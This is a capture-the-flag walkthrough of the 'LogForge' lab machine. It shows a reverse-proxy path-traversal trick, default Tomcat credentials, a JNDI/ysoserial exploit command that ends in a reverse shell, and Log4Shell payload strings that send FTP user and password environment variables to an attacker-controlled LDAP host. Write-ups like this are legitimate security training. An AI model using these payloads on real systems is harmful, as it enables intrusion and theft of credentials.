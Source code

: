 # LogForge

![LogForge.png](LogForge/LogForge.png)

### 12/24/2021

![Untitled](LogForge/Untitled.png)

This is a tomcat server

![Untitled](LogForge/Untitled%201.png)

Because the server has a tomcat but in response shows apache2, it’s probably reversing proxys we can use orange tsai lfi.

![Untitled](LogForge/Untitled%202.png)

The login credential of the panel is tomcat:tomcat.

![Untitled](LogForge/Untitled%203.png)

Look my netcat receive the connection from the tomcat

![Untitled](LogForge/Untitled%204.png)

Reproducing Log4J with base in this github

[https://github.com/xiajun325/apache-log4j-rce-poc](https://github.com/xiajun325/apache-log4j-rce-poc)

So git clone the marshalsec repository

```python
git clone https://github.com/mbechler/marshalsec
```

After that install the maven

```python
sudo apt-get install maven
```

After that compile the java package, Maven is a build automation tool used primarily used in Java Projects. 

```python
mvn clean package -DskipTests
```

![Untitled](LogForge/Untitled%205.png)

The reverse shell not work, probably we must have to use the Ysoserial modified sending serialized objects.

In the Isoserial we can look the help returning in the screen:

![Untitled](LogForge/Untitled%206.png)

So now I created a java serialized object:

![Untitled](LogForge/Untitled%207.png)

Running LNDI exploit:

![Untitled](LogForge/Untitled%208.png)

```python
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.26:1389 -P ~/Desktop/YSO5.ser
```

After some tries it works: Simple i change the payload to the curl executing a bash.

![Untitled](LogForge/Untitled%209.png)

Python server to receive the GET:

![Untitled](LogForge/Untitled%2010.png)

JNDI exploit kit:

![Untitled](LogForge/Untitled%2011.png)

Reverse shell:

![Untitled](LogForge/Untitled%2012.png)

In the following steps we have to decompile the ftpServer to look at somethings. The server is running on root user.

![Untitled](LogForge/Untitled%2013.png)

It uses log4j again.

![Untitled](LogForge/Untitled%2014.png)

We need to abuse of environment variables:

![Untitled](LogForge/Untitled%2015.png)

To extract this we will use the wireshark and do a little change in the payload: With that we can grab the ftp_user environment.

```python
${jndi:ldap://10.10.14.26:1389/${env:ftp_user}}
```

Wireshark with filter to point to port 1389.

Inserting payload in ftp:

![Untitled](LogForge/Untitled%2016.png)

It returns the user in the request:

![Untitled](LogForge/Untitled%2017.png)

Password:

```python
${jndi:ldap://10.10.14.26:1389/${env:ftp_password}}
```

![Untitled](LogForge/Untitled%2018.png)

log4j_env_leakage

Other options to exfiltrate:

![Untitled](LogForge/Untitled%2019.png)